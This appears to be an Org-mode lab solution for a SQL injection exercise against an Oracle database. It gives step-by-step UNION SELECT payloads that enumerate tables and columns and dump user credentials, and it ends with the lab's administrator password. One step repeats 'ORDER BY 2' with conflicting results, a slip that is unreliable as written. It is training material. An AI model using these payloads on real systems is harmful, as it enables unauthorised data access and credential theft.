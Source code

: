 #+title: SQL injection attack, listing the database contents on Oracle
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]] 
#+description: Mindmap to solve the lab with steps and solution
#+OPTIONS: toc:2

* Table of Contents :toc:
- [[#lab-contain][Lab contain]]
- [[#goal][Goal]]
- [[#find-out-number-of-column-orginal-query-return][Find out number of column orginal query return]]
- [[#find-out-the-data-type-of-returned-column][Find out the data type of returned column]]
- [[#check-out-database-version][Check out database version]]
- [[#find-out-the-table-name-that-contains-all-usernames-and-passwords][Find out the table name that contains all usernames and passwords]]
- [[#find-out-the-column-name-that-contains-all-usernames-and-passwords][Find out the column name that contains all usernames and passwords]]
- [[#finally-retreive-all-the-data][Finally retreive all the data]]

* Lab contain
- SQL injection vulnerability in product ~category~ filter
- Login panel
* Goal
- Find out name of the table that contains ~usernames~  and ~passwords~ of all users
- Login as ~administrator~

* DONE Find out number of column orginal query return
#+begin_src sql
 ' ORDER BY 1 --
#+end_src
/return 200/

#+begin_src sql
 ' ORDER BY 2 --
#+end_src
/return 200/

#+begin_src sql
 ' ORDER BY 2 --
#+end_src
/return 500 - Internal Server Error/

*So number of column is 2*

* DONE Find out the data type of returned column
*Have to select one table name ex: ~dual~ since it is oracle database*
#+begin_src sql
 ' UNION SELECT 'AB', NULL FROM dual --
#+end_src
/return 200, so first column ~string~ type/
#+begin_src sql
 ' UNION SELECT 'AB', 'zz' FROM dual --
#+end_src
/return 200, so second column ~string~ type/

* DONE Check out database version 
No need to find out the database version since it is already mentioned on question it is using ~oracle~ database.
* DONE Find out the table name that contains all usernames and passwords
#+begin_src sql
 ' UNION SELECT table_name, NULL FROM all_tables --
#+end_src
/200 res: return all table name/

From all of them this is the interesting table name ~USERS_UVWUNC~ [can be changes on every new instance of lab]. It may contain all the usernames and passwords informations of all users.

* DONE Find out the column name that contains all usernames and passwords
Now determine the columns name of ~USERS_UVWUNC~ table
#+begin_src sql 
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_UVWUNC' --
#+end_src
/return 200:OK/, return the columns name that ~USERS_UVWUNC~ table contain

+ Columns Name
- ~USERNAME_ENTEPR~
- ~PASSWORD_EKRVGE~

* DONE Finally retreive all the data  
#+begin_src sql
' UNION SELECT USERNAME_ENTEPR, PASSWORD_EKRVGE FROM USERS_UVWUNC --
#+end_src
/return 200:Ok/

This query return all the usernames and passwords 

*** Finish the Lab
Now retreive the username and passwords of the administrator and login into the system to solve the lab
+ username: ~administrator~
+ password: ~vrscwhqivcaf506k3618~
[can be change on every new instance of the lab]
